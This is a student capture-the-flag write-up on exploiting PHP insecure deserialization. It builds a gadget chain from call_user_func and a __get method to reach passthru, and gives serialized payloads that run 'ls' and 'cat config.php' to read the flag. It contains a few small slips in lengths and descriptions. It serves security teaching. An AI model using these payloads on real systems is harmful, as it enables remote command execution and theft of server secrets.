 # CTF Challenge with Group ✌
- **Insecure Deserialization**:<br>
- **Subject:** CTF Challenge in Secure Programming and Exploiting Vulnerabilities subject<br>
- **Team:** Blackberries<br>
- **Link:** http://45.122.249.68:10001/

## Write Up:<br>
- Enter link, we see a PHP code
```
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```
- There are 3 main classes:  `User`, `Show_color` and `do_nothing`<br>
- The "main" code:
```
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```
The code above will get the value of `code` in URL through `$_GET[]` and **unserialize** the variable `code` . In case `code` is **null** then show the code like being - `highlight_file(__FILE__);`.There are two another function `__construct()` và `__destruct()` and this is the good case for **insecure deserialization** with **unserialize** has no verify-input job so we can take advantage of this to exploit
- We notice that `User` class seems strange when a line shows  `admin=false`and when `admin=true` then print `"hi admin, here is your flag"`. So we trying to serialize the `User` object.
```
$a = new User('name');
$b = serialize($a);
echo $b;
```
Serialized string: `O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:0;}`.
Change the value `admin` into `true`-> Change `b:0` into `b:1`. Give this to `$code` in URL: 
http://45.122.249.68:10001?code=O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:1;}
We only see a blank page and nothing special with source code (Ctrl + U)
- According to next 2 classes, they're likely to be vulnerable cause in class `Show_color`, it uses `call_user_func()`. With this, we can execute our desired command with the first parameter is the function, the second one is the parameter for the precede function. For more details, see [here](https://www.php.net/manual/en/function.call-user-func). Considering some functions that allow us to **execute shell**: `exec()`, `shell_exec()`, `system()`, `passthru()`, which `system()` and `passthru()` are the best use cases (as I think) cause it's easy to use.
- Next, we think how to put that **excute shell** in classes's methods. 
```
public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
```
- As recommendation,  `passthru()` is passed into first parameter and `ls` will be the second. But the problem here, with second one we can transfer `ls` into `$color`through **constructor** but can not transfer `passthru` into the first cause its operation `$this->type->adu`, we have to manage to set `$this-type` as an object and `adu` would be the member or method.
- Take a look at `do_nothing`class, there is a fucntion `__get()`.This is one of [Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php) to override the reserved function by PHP. `__get()` take a parameter as a member or method. In the code, function `__get()` return  `this ->i_use_this` when  `this->why` is not empty. 
### Solution:
- Create instance  `do_nothing` with 2 parameters `123` (Optional value)  and `passthru`. 
- Create instance`Show_color` with 2 parameters **do_nothing object** above and the command we want to execute ex. `ls`. 
- Then **serialize** object  `Show_color`<br>
**Code**:
```
$a = new do_nothing(123,"passthru");
$b = new Show_color($a,"ls");
$code = serialize($b);
echo $code;
```
Output:
`O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}`
- Send to  var `code` and send request to reload page <br>

![image](https://user-images.githubusercontent.com/48288606/145559744-dd709ed3-33ed-4d02-a574-9787e0eb6aa7.png)


- There are 2 files. The command was executed successfully, we can review the logic flow as the following: Take a deep in the line `call_user_func($this->type->adu,$this->color);`. `$this->type` will become `$a`, means it will operate this `call_user_func($a->adu,$this->color);`. How about `$a->adu` was processed? Back again in `__get($method)` . And `$method` here is `adu`, this `$method` is actually do nothing, `$this->why` is set **null** to run the **block code** inside `return $this->i_use_this;` , it's equivalent to `return passthru($command)` with **$command** we have set above - `ls`.
- Afterthat, we try read file `config.php` first. Change `ls` into `cat config.php` , serialize again and do the similar with all the step above
Payload: O:10:"Show_color":2:{s:5:"color";s:13:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138678027-6bf37d9f-08e8-4fc4-a663-242a7e406030.png">
</p>

Seem not work? We take a consideration the variable we handle when manipulate all the value through URL, which will be affected by **URL Encode**. So in `cat index.php` it was the "space" in the string that will be encoded. For working properly, we should encode the payload

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138679801-71a74d2a-a376-478c-a92f-29e0da356e67.png">
</p>

**Final Payload**: %4f%3a%31%30%3a%22%53%68%6f%77%5f%63%6f%6c%6f%72%22%3a%32%3a%7b%73%3a%35%3a%22%63%6f%6c%6f%72%22%3b%73%3a%31%34%3a%22%63%61%74%20%63%6f%6e%66%69%67%2e%70%68%70%22%3b%73%3a%34%3a%22%74%79%70%65%22%3b%4f%3a%31%30%3a%22%64%6f%5f%6e%6f%74%68%69%6e%67%22%3a%32%3a%7b%73%3a%33%3a%22%77%68%79%22%3b%69%3a%31%32%33%3b%73%3a%31%30%3a%22%69%5f%75%73%65%5f%74%68%69%73%22%3b%73%3a%38%3a%22%70%61%73%73%74%68%72%75%22%3b%7d%7d
- Blank page, check the source code.
```
<?php
$flag = "flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}";
?>
```
**=>flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**
